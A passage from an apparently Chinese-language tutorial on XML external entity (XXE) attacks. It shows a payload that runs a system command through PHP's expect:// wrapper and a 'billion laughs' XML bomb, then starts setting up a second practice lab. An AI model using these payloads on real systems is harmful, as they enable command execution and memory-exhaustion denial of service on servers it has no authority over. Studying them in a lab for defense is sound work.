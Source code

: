 也可以用来执行命令，比如查看ip地址等操作。但是需要expect这个扩展模块，这里需要php下载expect扩展模块即可使用。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY>
    <!ENTITY xxe SYSTEM "expect://ifconfig">
]>
<root><name>&xxe;</name></root>
```

也可也使用常见的XML炸弹：当XML解析器尝试解析该文件时，由于DTD的定义指数级展开，这个1K不到的文件会占用到3G的内存。

每个lol实体可以展开消耗不了什么内存，但是lol2内部会进行lol的十次展开，同理到lol9展开次数会极其庞大，那么会严重消耗内存的空间。

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## xxe漏洞演示2

搭建从马士兵的资料中搭建另一个靶场。复制php_xxe到根目录下，phpstudy创建网站即可使用。

首先登陆时，使用f12来查看网络请求包。

![image-20240803194953898](XXE渗透与防御/image-20240803194953898.png)	
